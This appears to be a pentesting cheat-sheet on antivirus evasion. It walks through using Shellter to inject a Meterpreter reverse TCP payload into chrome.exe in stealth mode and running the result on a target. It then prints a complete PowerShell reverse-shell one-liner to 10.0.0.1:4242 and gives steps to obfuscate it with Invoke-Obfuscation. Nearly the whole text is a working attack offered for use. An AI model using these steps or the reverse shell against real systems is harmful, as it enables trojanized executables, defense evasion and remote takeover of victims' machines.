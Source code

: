 # AV Evasion

## AV evasion with shellter:

* Shellter is a dynamic shellcode injection tool aka dynamic PE infector. It can be used in order to inject shellcode into native Windows applications (currently 32-bit apps only). The shellcode can be something yours or something generated through a framework, such as Metasploit. Shellter takes advantage of the original structure of the PE file and doesn’t apply any modification such as changing memory access permissions in sections (unless the user wants to), adding an extra section with RWE access, and whatever would look dodgy under an AV scan.
* Install (https://www.kali.org/tools/shellter/)
* How to use (example)
  * Start shellter
  * Choose operation mode: `A` (automatic)
  * PE target: `/path/to/file/chrome.exe`
  * Enable stealth mode? `Y` (in this way the executable works as intended)
  * Select the payload you want (you can also generate a new one)
    * For this example we select a listed payload (meterpreter reverce tcp)
  * Set lhost and lport
  * Now the exe will be overwrite (but shellter creates a backup of the original exe)
  * Set listener (ex. multi/handler), download the exe on the target machine and execute

## AV evasion for powershell script - Invoke-Obfuscation

* https://github.com/danielbohannon/Invoke-Obfuscation
* Require powershell (`sudo apt install powershell -y`). You can run powershell with `pwsh`
* cd into invoke-obfuscation folder
* `Import-Module ./Invoke-Obfuscation.psd1`
* `Invoke-Obfuscation`
* Copy a reverse shell in poweshell (example): `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
* Remove `powershell -nop -c` and `" "`
* `$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
* Set lhost and lport and save (example) as `shell.ps1`
* On Invoke-Obfuscation `SET SCRIPTPATH /path/to/shell.ps1`
* Set `AST` options (The AST options works better with windows 10...
* Choose one of the AST module: `ALL`
* Choose one of the AST\ALL options to apply to current payload: `1`
* In the result you will get the result obfuscated code. Copy and save the code
* Set listener (ex. multi/handler), download the exe on the target machine and execute
